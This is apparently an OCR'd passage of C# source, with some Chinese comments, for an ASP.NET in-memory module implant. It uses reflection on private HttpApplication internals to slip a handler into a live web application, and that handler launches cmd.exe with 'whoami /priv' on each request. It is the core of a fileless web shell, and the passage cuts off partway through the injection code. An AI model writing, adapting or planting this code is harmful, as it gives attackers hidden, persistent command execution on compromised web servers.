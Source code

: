     
    
    public class F  
        {  
            public class CustomModule : System.Web.IHttpModule  
            {  
                public void Init(System.Web.HttpApplication httpApp)  
                {  
                      
                }  
      
                // Issues a custom begin request event.  
                  
                public void OnEnter(System.Object sender, System.EventArgs e)  
                {  
      
                    System.Web.HttpApplication httpApp = sender as System.Web.HttpApplication;  
                      
                    System.Diagnostics.Process p2 = new System.Diagnostics.Process();  
                    p2.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";  
                    p2.StartInfo.Arguments = "/c whoami /priv > C:\\Windows\\Temp1.txt";  
                    p2.StartInfo.UseShellExecute = false;  
                    p2.StartInfo.RedirectStandardError = true;  
                    p2.StartInfo.RedirectStandardOutput = true;  
                    p2.Start();  
      
                }  
      
      
                public void Dispose()  
                {  
                }  
            }  
            public F()   
            {  
                System.Web.HttpContext Context = System.Web.HttpContext.Current;  
                Context.Server.ClearError();  
                Context.Response.Clear();  
                try   
                {  
                    System.Web.HttpApplication httpApplicationInstance = System.Web.HttpContext.Current.ApplicationInstance;  
                    System.Type httpApplicationType = typeof(System.Web.HttpApplication);  
                    string name = "CustomModule"; // 模块名称  
                    CustomModule customModule = new CustomModule(); // 自定义的 IHttpModule 实例  
                    object[] parameters = new object[] { name, customModule };  
                    System.EventHandler c = new System.EventHandler(customModule.OnEnter);  
                      
                    System.Reflection.PropertyInfo eventsProperty = httpApplicationType  
                        .GetProperty("Events", System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);  
                    object eventsInstance = eventsProperty.GetValue(httpApplicationInstance);  
                    System.Reflection.MethodInfo addHandlerMethod = eventsInstance.GetType()  
                        .GetMethod("AddHandler");  
              
                    object[] parametersAddHandler = new object[] { new object(), c }; // 根据方法参数进行适当调整  
                    addHandlerMethod.Invoke(eventsInstance, parametersAddHandler);  
                    // 调用 GetModuleContainer 方法  
                    System.Reflection.MethodInfo getModuleContainerMethod = httpApplicationType.GetMethod("GetModuleContainer", System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);  
                    object[] parametersCurrentModuleCollectionKey = new object[] { "AspNetFilterModule" }; // 根据方法参数进行适当调整  
                    object moduleContainer = getModuleContainerMethod.Invoke(httpApplicationInstance, parametersCurrentModuleCollectionKey);  
                      